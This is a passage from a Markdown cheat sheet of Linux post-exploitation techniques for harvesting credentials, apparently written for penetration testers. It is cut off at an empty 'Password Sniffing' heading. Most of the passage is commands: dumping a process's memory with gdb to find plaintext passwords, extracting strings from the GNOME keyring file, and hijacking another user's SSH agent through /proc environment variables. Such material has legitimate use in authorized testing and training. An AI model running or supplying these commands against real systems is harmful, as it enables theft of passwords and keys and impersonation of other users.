 	```

# Passwords Stored in Memory

#### GDB (Attach to a Process)
- **Dump Process Memory:** Use `gdb` to attach to a process and dump its memory. This might allow you to retrieve plaintext passwords or sensitive information:
	```bash
	gdb -p <pid>
	(gdb) dump memory /tmp/memory_dump.bin 0x<start_address> 0x<end_address>
	```

# Password Storage Utilities

#### `gnome-keyring`
- **Gnome Keyring Dump:** If the user is running Gnome, the Gnome Keyring might store credentials:
	```bash
	strings ~/.gnome2/keyrings/login.keyring
	```

#### `seahorse`
- **Dump Seahorse Keyring:** Seahorse is the GUI for managing GPG keys and passwords. View key information:
	```bash
	seahorse
	```

# SSH Session Hijacking

#### SSH Session Hijacking via `/proc`
- **Hijack SSH Session:**
    - Identify active SSH sessions by listing `/proc` and search for `ssh`:
      ```bash
      ps aux | grep ssh
      ```
    - **Copy Environment Variables:**
      - For each SSH process, copy the environment variables such as `SSH_AUTH_SOCK`:
        ```bash
        cat /proc/<pid>/environ | tr '\0' '\n'
        export SSH_AUTH_SOCK=/proc/<pid>/fd/<fd_number>
        ```
    - **Connect as the user:**
      - Once the environment variables are set, you can authenticate as the user:
        ```bash
        ssh-add -l
        ```

# Password Sniffing

